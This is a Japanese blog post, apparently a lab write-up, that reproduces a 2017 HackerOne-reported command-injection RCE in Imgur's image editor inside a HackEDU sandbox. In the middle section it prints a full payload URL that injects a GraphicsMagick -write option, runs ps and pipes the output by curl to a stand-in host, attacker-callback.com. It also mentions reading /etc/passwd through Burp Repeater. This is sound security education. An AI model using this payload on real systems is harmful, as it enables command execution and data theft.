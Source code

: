 




# HackerOneに報告された脆弱性をHackEDUで再現する

サイバーセキュリティに関する体験型学習サービスを提供する「[HackEDU](https://hackedu.io/)」が[HackerOneと提携し、過去に報告された脆弱性を再現できるサンドボックス環境をリリースした](https://www.hackerone.com/blog/Test-your-hacking-skills-real-world-simulated-bugs)。
HackEDUの無料アカウントを作成するだけで、HackerOneに報告された5つの脆弱性のサンドボックス環境を利用できる。

今回はバグハンターのneex氏が2017年に報告したImgurという画像共有サイトでのRCE（[#212696](https://hackerone.com/reports/212696)）を取り上げる。neex氏が脆弱性を発見した際の手順を再現しながら詳細を学んでいく。

## ImgurでのRCEの再現

HackEDUの利用者はブラウザからサンドボックス環境にアクセスし、ページ内に用意された仮想ブラウザと仮想プロキシを使って脆弱性を再現する。以下のページが[ImgurでのRCEのサンドボックス環境](https://hackedu.io/hacktivity/5f8e247b-98bc-4b7a-aa97-472dcc34a6f8)である。仮想ブラウザ上の1つ目のタブにImgurを再現したImgerというサイトが、2つ目にコールバックを確認するためのタブが開かれている。

![top](https://user-images.githubusercontent.com/5434303/53991342-baa30f80-416d-11e9-8882-70e33c8bccb8.png)

neex氏のレポートによると脆弱性は画像編集機能で見つかっている。Imgurでは画像処理ツールとして人気の高いImageMagickとGraphicsMagickのどちらかが利用されているとneex氏は推測し、どちらのツールにも存在する `-rotate` オプションを用いて調査を始めている。

サンドボックス環境では画像編集時のHTTPリクエストがPOSTメソッドで送られるが、GETメソッドに変更しても問題なく処理される。今回はレポートを忠実に再現するため、仮想プロキシでインターセプトしたHTTPリクエストをGETメソッドに変更した上でパラメータの値を書き換える。

![intercept](https://user-images.githubusercontent.com/5434303/53991381-cdb5df80-416d-11e9-8666-90a50c8471fc.png)

Imgurでは画像編集時に送信される `y` パラメータの値を画像処理ツールのコマンドライン引数に挿入していたため脆弱性が生じた。サンドボックス環境でも `y` パラメータの値に ` -rotate 90` を追加すると画像が90度回転する。

![rotate](https://user-images.githubusercontent.com/5434303/53991406-de665580-416d-11e9-9901-3921ed52caa3.png)

さらなる調査の結果、ImgurではGraphicsMagickが利用されているとneex氏は確信し、`-write` オプションで任意のコマンドを実行できる仕様を用いてRCEを実証した<sup id="f1">[1](#fn1)</sup>。PoCでは `y` パラメータから挿入した `ps` コマンドの実行結果を `curl` コマンドで外部のサーバーへ送信している。

サンドボックス環境では `http://attacker-callback.com:9000` へのコールバックを仮想ブラウザの2つ目のタブで確認できる。2つ目のタブを事前に開いてリッスン状態にしてから、1つ目のタブで以下のURLにアクセスすると `ps` コマンドの実行結果を受け取れる。実際の環境ではスペース（%20）を挿入できなかったためか、neex氏は `${IFS}` を代用して文字を区切っている<sup id="f2">[2](#fn2)</sup>。

http:</i>//imger.com/edit/process?imageid=cd4caa87977d1469cfeedf5cce8e2992.jpg&a=crop&x=95&y=41%20-write%20|ps${IFS}aux|curl${IFS}http:</i>//attacker-callback.com:9000${IFS}-d${IFS}@-&w=768&h=328&random=asdf

![callback](https://user-images.githubusercontent.com/5434303/53991423-ec1bdb00-416d-11e9-8345-4de5bbc8f3b2.png)

## HackEDUでのHTTPリクエストの再送

今回取り上げた脆弱性はGETパラメータでも再現できたため、仮想ブラウザのアドレスバーからパラメータ操作が可能であった。しかしPOSTパラメータでの脆弱性を検証する場合、HTTPリクエストを何度もインターセプトして書き換えることになる。サンドボックス環境の仮想プロキシにはHTTPリクエストの再送機能が搭載されていないため、愛用のローカルプロキシでの再送を試みる。

サンドボックス環境とはいえ仮想ブラウザから発生するHTTPリクエストはHackEDUのサーバーに送信される。そのためサンドボックス環境のページを開いているブラウザでローカルプロキシを経由すればHTTPリクエストを操作できる。例えばBurp SuiteのRepeaterで以下のHTTPリクエストを再送すると、仮想ブラウザの2つ目のタブに `/etc/passwd` の内容が表示される。

![burp](https://user-images.githubusercontent.com/5434303/53991456-fb9b2400-416d-11e9-9a44-c8165269a667.png)

## 所感

脆弱性のレポートを読むだけと、実際に再現まで確認するとでは学びの量が違う。レポートに記載されていない別のパターンを試すことで新たな発見にもつながるし、記憶にも残りやすい。ソフトウェア製品の脆弱性の場合、修正前の古いバージョンを入手できれば再現は可能である。しかしWebアプリケーションの脆弱性の場合、サイト運営者でなければ修正後の再現は極めて難しい。HackEDUのようなサービスにより実在した脆弱性を容易に再現できるようになれば、バグハンターだけでなく開発者の学びにも役立つだろう。

今回は取り上げなかったが、HackEDUはWebアプリケーションの各種脆弱性のサンドボックス環境やCTF形式の問題も提供している。[無料アカウントではSQLインジェクションのみ](https://hackedu.io/demo)だが、脆弱性の再現から各プログラミング言語での修正まで体験できるコースもある。また年間$750の有料アカウントになれば[CVEが割り振られたソフトウェア製品の脆弱性](https://hackedu.io/vulnerabilities)や、バッファオーバーフローのような脆弱性のサンドボックス環境も利用できるようになる。有料アカウントは7日間の無料体験ができるので、まずは試用してから購入を検討したい。

---

<sup id="fn1">[1](#f1)</sup> http://www.graphicsmagick.org/GraphicsMagick.html#details-write  
<sup id="fn2">[2](#f2)</sup> https://github.com/fuzzdb-project/fuzzdb/tree/master/attack/os-cmd-execution  